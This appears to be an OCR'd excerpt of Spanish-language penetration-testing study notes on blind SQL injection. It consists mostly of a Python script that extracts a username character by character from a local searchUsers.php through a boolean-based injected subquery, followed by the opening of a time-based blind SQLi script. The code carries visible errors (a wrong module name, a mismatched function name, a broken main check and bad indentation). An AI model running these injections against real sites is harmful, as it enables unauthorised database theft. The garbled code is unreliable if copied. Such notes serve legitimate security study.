     def def_handler(sig, frame):
    	print("\n\n[!]Saliendo...\n")
    	sys.exit(1)
    
    \#Ctrl_C
    signal.signal(signal.SIGINT, def_handler)
    
    \#Variables Globales
    main_url = "http://localhost/searchUsers.php"
    character = string.printable
    
    def makeSQLi():
    	p1 = log.progress("Fuerza bruta")
    	p1.status("Iniciando fuerza bruta")
    	
    	time.sleep(2)
    	p2 = log.progress("Datos Extraidos")
    
    	extracted_info = ""
    
    	for position in range(1, 50):
    		for character in range(33, 126):
    			sqli_url = main_url + "?id=9 or (select(select ascii(substring(username,%d,1)) from users where id=1)=%d)" % (position, character)
    			
    			p1.status(sqli_url)
    	
    			r = requests.get(sqli_url)
    			
    			if r.status_code == 200:
    			extracted_info += chr(character)
    			p2.status(extracted_info)	
    			break
    
    if __name__ == 'main':
    	makeSQLI()
    ```
    
    ![[Untitled 50.png]]
    
    ![[Untitled 51.png]]
    
      
    
    ---
    
    ### Time-based blind SQLi
    
    ```Python
    #!/usr/bin/python3
    
    import request
    import signal
    import sys
    import time
    import string
    from pwn import *
    